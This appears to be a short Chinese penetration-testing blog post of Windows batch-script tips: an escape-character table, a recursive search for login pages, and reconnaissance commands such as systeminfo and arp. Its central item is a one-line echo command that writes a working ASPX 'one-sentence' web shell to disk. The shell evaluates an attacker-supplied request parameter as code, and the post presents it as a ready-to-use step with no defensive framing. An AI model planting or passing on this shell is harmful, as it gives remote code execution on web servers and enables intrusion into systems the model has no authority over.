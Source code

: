 ```yaml
---
layout: post
title: dos下bat脚本tips
categories: 渗透测试
tag: dos
---
```


# 说明

windows 下 bat 脚本一些tips

### 转义字符

```text
% 	%% 	May not always be required in doublequoted strings, just try
^ 	^^ 	May not always be required in doublequoted strings, but it won't hurt
& 	^&
< 	^<
> 	^>
| 	^|
' 	^' 	Required only in the FOR /F "subject" (i.e. between the parenthesis), unless backq is used
` 	^` 	Required only in the FOR /F "subject" (i.e. between the parenthesis), if backq is used
, 	^, 	Required only in the FOR /F "subject" (i.e. between the parenthesis), even in doublequoted strings
; 	^;
= 	^=
( 	^(
) 	^)
! 	^^! 	Required only when delayed variable expansion is active
" 	"" 	Required only inside the search pattern of FIND
\ 	\\ 	Required only inside the regex pattern of FINDSTR
[ 	\[
] 	\]
" 	\"
. 	\.
* 	\*
? 	\?
```

### bat 脚本echo 出 aspx 一句话shell

```shell
echo ^<%%@ Page Language^="Jscript"%%^>^<%% eval^(Request.Item["xtghsd"],"unsafe"^);%%^> > e:\error.aspx
```

### 查找文件

  `for /r e:\ %i in (login*.aspx) do @echo %i`

### 信息搜集

- systeminfo
- tasklist
- arp -a
- route print
